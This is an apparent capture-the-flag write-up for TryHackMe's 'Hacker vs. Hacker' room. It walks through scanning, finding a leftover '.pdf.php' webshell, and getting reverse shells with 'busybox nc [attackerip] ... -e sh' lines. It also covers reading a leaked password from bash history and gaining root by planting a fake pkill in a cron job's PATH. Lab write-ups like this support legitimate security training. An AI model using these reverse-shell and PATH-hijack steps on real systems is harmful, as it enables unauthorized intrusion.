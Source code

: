 ```yaml
---
title: "Hacker vs. Hacker"
date: 2025-02-13
image: /assets/img/tryhackme/Hackervshacker/Hackervshacker_image.jpg
description: Writeup of the TryHackMe-CTF Hacker vs. Hacker
categories: [Tryhackme, Easy]
tags: [linux, web, privesc]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Hacker vs. Hacker</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Someone has compromised this server already! Can you get in and evade their countermeasures?</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/hackervshacker">https://tryhackme.com/room/hackervshacker</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Hacker vs. Hacker.

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.103.67
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-13 09:27 EST
  Nmap scan report for 10.10.103.67
  Host is up (0.039s latency).
  Not shown: 65533 closed tcp ports (conn-refused)
  PORT   STATE SERVICE
  22/tcp open  ssh
  80/tcp open  http

  Nmap done: 1 IP address (1 host up) scanned in 22.96 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 22,80 10.10.103.67
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-13 09:28 EST
  Nmap scan report for 10.10.103.67
  Host is up (0.039s latency).

  PORT   STATE SERVICE VERSION
  22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   3072 9f:a6:01:53:92:3a:1d:ba:d7:18:18:5c:0d:8e:92:2c (RSA)
  |   256 4b:60:dc:fb:92:a8:6f:fc:74:53:64:c1:8c:bd:de:7c (ECDSA)
  |_  256 83:d4:9c:d0:90:36:ce:83:f7:c7:53:30:28:df:c3:d5 (ED25519)
  80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
  |_http-server-header: Apache/2.4.41 (Ubuntu)
  |_http-title: RecruitSec: Industry Leading Infosec Recruitment
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 8.18 seconds
```
From here I proceeded the analysis port by port.

## Port 80 Analysis

While manually analyzing the website, I found a comment in the source code:
```html
<!-- im no security expert - thats what we have a stable of nerds for - but isn't /cvs on the public website a privacy risk? -->
```

The website also provided an upload functionality for CV's as well. Which means uploaded CV's will be stored in the `/cvs` subdirectory. I tried to upload valid files, a PHP webshell, and other stuff, but I always received the following message:
```text
Hacked! If you dont want me to upload my shell, do better at filtering!
```
quick check of the source code revealed some interesting details:
```html
<!-- seriously, dumb stuff:

$target_dir = "cvs/";
$target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);

if (!strpos($target_file, ".pdf")) {
  echo "Only PDF CVs are accepted.";
} else if (file_exists($target_file)) {
  echo "This CV has already been uploaded!";
} else if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
  echo "Success! We will get back to you.";
} else {
  echo "Something went wrong :|";
}
-->
```

With this in mind I tried a pdf file, but got the same error. The attacker seems to have disabled the upload function but already used it for initial access. The code only checks for one occurrence of `.pdf` so the name of the shell could be like `something.pdf.php`:

```bash
$ ffuf -u http://10.10.103.67/cvs/FUZZ.pdf.php -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-words.txt 

          /'___\  /'___\           /'___\       
         /\ \__/ /\ \__/  __  __  /\ \__/       
         \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
          \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
           \ \_\   \ \_\  \ \____/  \ \_\       
            \/_/    \/_/   \/___/    \/_/       

         v2.1.0-dev
  ________________________________________________

   :: Method           : GET
   :: URL              : http://10.10.103.67/cvs/FUZZ.pdf.php
   :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-words.txt
   :: Follow redirects : false
   :: Calibration      : false
   :: Timeout          : 10
   :: Threads          : 40
   :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
  ________________________________________________

shell                   [Status: 200, Size: 18, Words: 1, Lines: 2, Duration: 44ms]
```

Fuff helped to find it real quick. That seems like a regular PHP webshell one-liner:

![Web Shell](/assets/img/tryhackme/Hackervshacker/thm_hackervshacker_1.jpg)

I used it to get a reverse shell using `busybox` 

```html
http://10.10.103.67/cvs/shell.pdf.php?cmd=busybox nc [attackerip] 9001 -e sh
```

While trying to stabilize the shell with Python, the word `nope` appeared, and my `PTY` was terminated. It appears that there is a mechanism in place to prevent stabilization or the initiation of `PTY` sessions. But I was able to collect the user flag anyway:

```bash
www-data@b2r:/var/www/html/cvs$ nope
cd /home
ls
lachlan
cd lachlan
ls
bin
user.txt
cat user.txt 
thm{[removed]}
```

## Privilege Escalation lachlan

From this point, I attempted to escalate privileges to the user `lachlan`. I found something interesting in the `bash_history` of the user:

```bash
cat .bash_history
./cve.sh
./cve-patch.sh
vi /etc/cron.d/persistence
echo -e "dHY5pzmNYoETv7SUaY\n[removed]\n[removed]" | passwd
ls -sf /dev/null /home/lachlan/.bash_history
```

The user changed their password in an insecure manner. From here ssh isn't possible because the shell gets closed again instantly with a `nope`. After researching the `ssh` command, I discovered that `ssh` does not create a PTY session when using the `-T` flag.

## Privilege Escalation root

While searching for a way to gain root access, I found a cron job file named `persistence`:

```bash
cat /etc/cron.d/persistence
PATH=/home/lachlan/bin:/bin:/usr/bin
# * * * * * root backup.sh
* * * * * root /bin/sleep 1  && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 11 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 21 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 31 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 41 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 51 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
```

The path for the execution is `/home/lachlan/bin` which is under control. Since the `pkill` command is not referenced by its full path, we can exploit this by creating our own executable:

```bash
pwd
	/home/lachlan/bin
echo "busybox nc [attackerip] 9002 -e sh" > pkill
chmod 777 pkill
```

I then started a `netcat` listener and waited for the incoming connection:

```bash
$ nc -lnvp 9002
listening on [any] 9002 ...
connect to [attackerip] from (UNKNOWN) [10.10.103.67] 37212
whoami
root
cat /root/root.txt
thm{[removed]}
```

solved! :)
